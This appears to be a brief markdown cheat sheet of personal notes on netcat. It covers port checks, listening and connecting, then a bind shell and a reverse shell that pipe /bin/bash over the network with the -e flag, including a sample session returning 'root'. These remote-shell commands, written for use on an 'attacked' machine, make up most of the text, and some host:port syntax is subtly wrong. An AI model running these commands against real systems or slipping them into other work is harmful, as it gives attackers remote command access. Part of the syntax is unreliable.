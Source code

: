 # Netcat

- Check
nc -v 192.168.1.1:80 (verbose)

- listen
nc -lvp 1234(listen,verbose,port)
no ip means any(0.0.0.0)

- connect
nc 192.168.1.1:1234

## Shell

- Listen
nc -lvp 1234 -e /bin/bash (execute)

- Connect
nc 192.168.1.1 1234

```shell
whoami
root```

### Reverse
- Listen(client)
nc -lvp 1234
- connect(attacked)
nc 192.168.23.54 1234 -e /bin/bash


